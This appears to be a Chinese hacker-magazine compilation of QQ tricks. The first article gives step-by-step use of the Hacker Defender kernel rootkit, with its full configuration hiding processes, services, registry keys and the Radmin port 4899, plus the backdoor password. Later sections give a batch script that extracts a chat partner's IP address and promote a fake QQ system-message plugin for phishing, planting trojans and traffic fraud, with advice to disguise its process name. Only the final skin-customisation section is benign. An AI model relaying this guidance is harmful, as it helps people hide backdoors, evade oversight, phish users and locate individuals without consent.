我们经常会在上班的办公室或者在电脑课上挂自己的QQ，当然我们这样做领导肯定是不允许的，以前的办法是使用QQ隐藏托盘图标的功能（QQ个人资料→系统设置→去掉“在任务栏通知区域显示QQ图标”），如图1所示。



但是这样做我们也只能忽悠一些不懂电脑的人，稍微有一些电脑基础的朋友，就可以请出任务管理器或者调用系统的搜索功能来搜索我们的QQ目录，一旦QQ文件被搜索到了，那么我们一定就是有口难辩。当然如果一旦在任务管理器当中发现了我们的QQ进程，那即使我们隐藏了QQ托盘图标也难逃这么一劫，如图2所示。其实当我们遇到了上边这个问题以后，一款工具就可以将我们的烦恼轻松解决，如图3所示，它的名字叫做“黑客之门”，是一款功能强大的后门隐藏程序，可以同时隐藏运行软件的进程、安装目录、服务、注册表项、通信端口等多种电脑TCP协议。





由于它作为内核的一部分运行，所以这种后门将会越来越比传统技术更加强大、更加不易被发觉，打开配置文件，会看到如下的信息。

```text
[Hidden Table]
...
```

```text
rcmd.exe
r_server.exe
QQ*

[Hidden Processes]
hxdef*
rcmd.exe
r_server.exe
QQ*

[Root Processes]
hxdef*
rcmd.exe
r_server.exe
QQ*

[Hidden Services]
HackerDefender*
Radmin*
r_server*

[Hidden RegKeys]
HackerDefender100
LEGACY_HACKERDEFENDER100
HackerDefenderDrv100
LEGACY_HACKERDEFENDERDRV100
r_server

[Hidden RegValues]
r_server

[Startup Run]
r_server

[Free Space]

[Hidden Ports]
TCPI:4899
TCPO:4899
UDP:4899

[Settings]
```

```text
Password=hxdef-rulez
BackdoorShell=hxdef?.exe
FileMappingName=_-[Hacker Defender]=-_
ServiceName=HackerDefender100
ServiceDisplayName=HXD Service 100
ServiceDescription=powerful NT rootkit
DriverName=HackerDefenderDrv100
DriverFileName=hxdefdrv.sys
```

程序支持通配符“*”，我们只要在各项标签下加入自己想要隐藏的程序即可。例如第一个选项[Hidden Table]中的hxdef*、rcmd.exe、r_server.exe、QQ*分别译为隐藏所有以hxdef开头的文件名、目录，隐藏rcmd.exe程序、隐藏r_server.exe文件和隐藏QQ相关文件。填写完毕后，我们保存退出，之后双击目录下的“hxdef100.exe”文件即可。双击完毕就可以看到，此配置文件消失，系统所有文件名中含有“QQ”的文件夹和文件不是消失就是无法正常工作，而进程中的QQ.exe也同时消失，打开QQ安装目录也是空的（注意：我们硬盘需要在系统设置中勾选不显示扩展名），如图4、图5所示。





明白了上边的使用过程，我们可以总结得到：只要在上班时或者上电脑课时打开了配置好的“黑客之门”程序，就可以在瞬间对QQ进行彻头彻尾的隐藏。当我们再想要打开QQ的时候只要调用腾讯给我们提供的快捷键即可；如果想要电脑恢复正常，方法也很简单，在cmd窗口下输入 `net stop hackerdefender100` 命令，如图6所示，同时再刷新一下桌面，一切就会恢复正常。



图6

> > （文章中所涉及到的黑客之门已收录在本期光盘中）

### 新奇腾讯小招

每一门技术都有它独特的魅力，一个小小的QQ却可以玩出不一般的大舞台。几乎每一位朋友的黑客之路都是从简单的“QQ黑客”从而蜕变开始的。QQ是我们网游中接触最多的一款聊天工具，功能时时出新，频频引人入胜。因此，玩转QQ是我们的当务之急，所以，大家就踏着时代的脚步，与我共同来领略这“成长中的小企鹅”2010年带给我们的最新魅力吧！

但在B号的QQ列表中，并未显示AQQ号在线的情况。打开音乐分享时，在列表中却显示A号在线，如此这么简单两步，就可以测试出QQ好友的“不忠”，大家快去尝试下吧！

### 一、QQ音乐妙用之“好友在线对我隐身”和“隐身对其可见”

随着QQ更新到2010版本，为了方便用户们的使用，以前可以使用隐身功能，对QQ上的全部好友隐藏自己未上线的动态，而如今却还可以对指定的朋友隐藏自己的上线状态，这就是大家所看到的——在线对其隐身。那么该如何突破这个设置呢？方法还是有的。我们首先打开QQ面板中的QQ音乐，进入播放列表，随便选择一首歌曲，单击右键选择“分享给好友”，如图1所示。



图2

我们明白了如何利用QQ音乐帮助我们查找出在线对自己隐身的QQ好友，下面我们就来用QQ音乐同时为我们揪出对我们“忠心”的朋友，即“隐身对其可见”。同样是准备两个QQ号，A号QQ隐身状态，对B号设置了隐身对其可见，这时我们打开QQ音乐，随便为B号分享一首歌曲，如图3。



图1

QQ会自动弹出来一个好友对话框，里边显示了你当前QQ在线分组和相关群。这里我准备了两个QQ号码，AQQ号作为对B号在线隐身的QQ，使用BQQ登录QQ音乐，点击分享音乐，在列表框中选择属于BQQ的分组。如图2中我们可以看到，在A号的好友列表中对B号进行了在线对其隐身。



图3

从图中我们还是依然可以明白，虽然A号对B号设置的是隐身对其可见，但是在QQ音乐分享列表中，确实是“黑暗”状态，也就是显示不在线。利用这种方法，我们可以进行对比，看哪位好友对我们留心，隐身也希望你看到他在线，动一动你的手，去测试一下你真真正正的朋友吧！o(∩_∩)o

### 二、小菜的QQ显IP之旅

当我们身在网吧或者一个没有任何工具辅助的场所，我们欲想查看QQ好友的所在地，是否能实现呢？答案同样也是肯定的，所有用到的工具只是电脑自带的“命令提示符”。下面我们来看看操作方法：首先与对方进行聊天，这时候进入“命令提示符”窗口（开始→运行→cmd），输入 `netstat -n`。`netstat -n` 用于显示与IP、TCP、UDP和ICMP协议相关的统计数据，一般用于检查本机各端口的网络连接情况，可以看到网络连接，如此庞大的数据连接。

| Proto | Local Address        | Foreign Address       | State       |
|-------|----------------------|-----------------------|-------------|
| TCP   | 127.0.0.1:1962       | 127.0.0.1:1963        | ESTABLISHED |
| TCP   | 127.0.0.1:1963       | 127.0.0.1:1962        | ESTABLISHED |
| TCP   | 127.0.0.1:1978       | 127.0.0.1:1977        | ESTABLISHED |
| TCP   | 192.168.1.100:2907   | 60.209.145.226:6953   | LAST_ACK    |
| TCP   | 192.168.1.100:3037   | 222.129.213.10:20100  | ESTABLISHED |
| TCP   | 192.168.1.100:3029   | 220.171.182.207:4105  | ESTABLISHED |

| Proto | Local Address        | Foreign Address       | State       |
|-------|----------------------|-----------------------|-------------|
| TCP   | 127.0.0.1:1962       | 127.0.0.1:1963        | ESTABLISHED |
| TCP   | 127.0.0.1:1963       | 127.0.0.1:1962        | ESTABLISHED |
| TCP   | 127.0.0.1:1978       | 127.0.0.1:1977        | ESTABLISHED |
| TCP   | 192.168.1.100:2907   | 60.209.145.226:6953   | LAST_ACK    |
| TCP   | 192.168.1.100:3037   | 222.129.213.10:20100  | TIME_WAIT   |
| TCP   | 192.168.1.100:3029   | 220.171.182.207:4105  | ESTABLISHED |

我们仔细对比两段代码，可以发现：

前者：`TCP 192.168.1.100:3037 222.129.213.10:20100 ESTABLISHED`  
后者：`TCP 192.168.1.100:3037 222.129.213.10:20100 TIME_WAIT`



好家伙，大家现在一定是晕头转向了，不着急，我们现在关闭掉与好友的聊天窗口，然后在DOS下再次输入 `netstat -n` 你又将看到。

State状态不同，第一次的是“ESTABLISHED”（TCP连接成功），关闭QQ以后为“TIME_WAIT”（TCP连接失败）。很明显，当我们关闭了聊天对话框时，TCP已经连接失败了。由以上对比，我们便可以确定对方的IP为222.129.213.10，拿到 www.ip138.com 查询，如图4就可以看到结果了。

在上文我提到了一种利用 CMD 的方式获取好友 IP 的方法，那种方法虽然实用和方便，但是还得我们实际手工去操作。作为小菜的我们当然是怎么方便怎么来，所以本文我就教大家如何编写一个批处理，来实现查看好友 IP，代码如下：

```bat
:go1
ping localhost -n 2
netstat -an|findstr "FIN_WAIT_2"
if errorlevel 0 netstat -an|findstr "FIN_WAIT_2">>1.txt&for /f "tokens=1,2 delims=:" %%j in (1.txt) do echo %%j>2.txt&for /f "tokens=1,2 delims= " %%j in (2.txt) do echo %%j>qq.txt&goto go2
goto go1

:go2
del 1.txt
del 2.txt
start qq.txt
exit
```

大家将代码复制到文本中，保存为 bat 格式。运行 bat 批处理文件，不要关闭，接下来随便点开一个对话框进入聊天状态，不久就会弹出一个名为 qq.txt 的对话框，对话框中就会显示出正与你聊天的好友的 IP 地址，如图5所示。


图5

好了。该说的已经 OK 啦~~大家赶快去试下吧（*^__^*）

## QQ系统假消息制作

现在的钓鱼网站真不少，还有为了搞网赚大家可是各出奇招，绞尽脑汁。今天就和大家一起来分享一下 QQ 系统假消息，大家可以用来做钓鱼网站，也可以用来挂马，搞网赚刷流量。


图1

好了废话少说（再说大家要扔砖了），要用到一款 QQ 信息插件，如图1。首先我们生成一个假消息插件，然后在里面进行一些参数的设置：“插件打开地址”就是你点击那个信息上的查看时转向的地址；“运行弹出时间”默认是 30 秒；“循环监视时间”就是多久弹出广告一次；“新闻框内容”“消息框内容”填入你想让用户看到的新闻框和消息框内容；“显示消息在后台设置”“防止多挂”默认勾选，不用管它。


图2

插件运行以后，会在 QQ 那个地方弹出小喇叭，可以发现“新闻框内容”填的就是如图2出现的效果，“消息框内容”就是如图3的效果。怎么样？够逼真的吧！~~


图3

还有个问题就是怎么关掉它（叉子们：再卖关子，就阉了你）。这个软件的作者做的不是很完美，打开任务管理器会发现它的进程（你可以改成一个有迷惑性的名字就可以了，例如 explore.exe）如图4。他没有用 DLL 线程插入，也没有过滤掉 TerminateProcess 函数，可以用任务管理器结束掉。好了，最后祝大家黑得愉快。


图4

（本文所涉及到的 QQ10000 系统消息插件生成器已收录到光盘中）

### 小企鹅的靓丽蜕变

#### ——QQ美化跟我学

新时代的我们趋于个性化，同样玩 QQ 也要玩出个独特来。随着 QQ 版本的不断进步，菜菜们对 QQ 的了解也在逐步提高……所以本文我就为大家带来我所知道的 QQ 美化技巧，让你的 QQ 闪亮到极致。

下面我们来看美化的过程。首先去 QQ 拼音的官方网站（http://skin.py.qq.com）下载安装自己喜爱的皮肤图框，安装完毕以后在 QQ 拼音工具栏右键点击属性，进入配置界面，选中“皮肤设置”选项，如图3所示，选中自己喜爱的那款，确定退出即可。

### 一、QQ拼音也要靓起来

QQ 输入法的皮肤文件为 qpys 格式，是由 QQ 输入法皮肤编辑器采用加密压缩生成的，如图1所示。


也许为了保护制作者的版权，所以其他网友是无法直接解压打开该文件获取资源图片的。使用 QQ 拼音皮肤时，我们必须下载 QQ 输入工具 2.3 以上或者 QQ 五笔 1.0 以上的版本，方可支持皮肤文件的直接安装。

当用户下载 qpys 格式的皮肤文件后，直接双击安装就可以了。当然我们也可以在 QQ 拼音的官方网站（http://skin.py.qq.com）直接安装自己喜爱的图框，我的图框效果如图2所示。


### 二、QQ下载辅助——QQ旋风换皮进行时

接下来我们要学习美化腾讯一款下载辅助软件——QQ 旋风。我们要用到文件覆盖替换法，即将制作好或者准备好的图片覆盖到它的皮肤默认目录下，在覆盖前要对以前的文件进行备份……替换完成后重新打开即可。


### 三、我的QQ音乐外观也要炫起来

打开 QQ 音乐，右键选择皮肤，我们看到了默认的四款。很多年来 QQ 音乐的皮肤从未做过改变，如图5所示。我是一个喜欢个性的人，比较喜欢装点自己的电脑，于是就想着替 QQ 音乐换一下皮肤……


图6

在 QQMusicSkin/Default 文件夹中，所以我们只要替换这个文件夹里边的图片或者图标，就可以达到替换 QQ 音乐皮肤的作用了。我为大家准备了一套 QQ 音乐的皮肤，效果如图6、7所示，是不是感觉很帅气和个性呢？大家只要将压缩文件包的 Default 文件夹解压出来，并且覆盖到 QQ 音乐默认的皮肤路径即可。如果还想恢复以前的皮肤，建议将文件夹另行备份。


图7

### 四、手到擒来，QQ登录框也学装潢

在 QQ2010 正式版当中，不但可以自定义 QQ 登录框的文字，而且还可以随意更换背景。下面我们就来看下更换方法，用到的软件是 PhotoShop 和通用文件打包解包这两款软件。

首先先去网上选择一幅自己喜欢的图片，把它载入 PhotoShop 中，依次选择“图像→图像大小”，如图8所示，在弹出来的设置框中，将宽度和高度设置为 355*221 像素。注意的是一定要将下方的“约束比例”前的钩去掉，点击确定就会得到 355*221 大小的图片了。把这个图片保存在本地一张，重命名为 MiniLoginPanel_WinBkg.bmp。

之后再选择工具栏上的“切片工具”或者直接用快捷键“K”来打开切片工具，裁剪我们的图片。在最上方的工作属性窗口中把宽度和高度分别设置成 355*64，接下来在原图上选出相应大小的图片即可，如图9。之后再依次选择“文件→储存为 Web 所用格式”，在弹出的界面中选择“Save”也就是保存，保存格式为 Image only（*.gif），只保存为图片格式。最后退出，到桌面可以看到生成了两张图片，我们把大小为 335*34 的重命名为 MiniLoginPanel_DefaultBanner.bmp，把另外一张则命名为 MiniLoginPanel_BtnBkg.bmp。此刻我们的背景界面图片就制作完毕了，如图10所示，加上之前的一共三张。

